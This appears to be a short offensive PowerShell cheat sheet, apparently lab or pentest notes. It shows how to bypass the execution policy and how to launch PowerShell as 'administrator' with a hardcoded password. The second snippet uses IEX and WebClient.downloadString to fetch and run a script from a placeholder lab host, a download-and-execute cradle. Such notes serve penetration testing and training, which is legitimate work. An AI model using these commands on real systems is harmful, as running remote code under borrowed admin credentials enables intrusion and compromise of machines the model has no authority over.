 # Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

# Invoke command providing credentials

```powershell
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​;
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
```
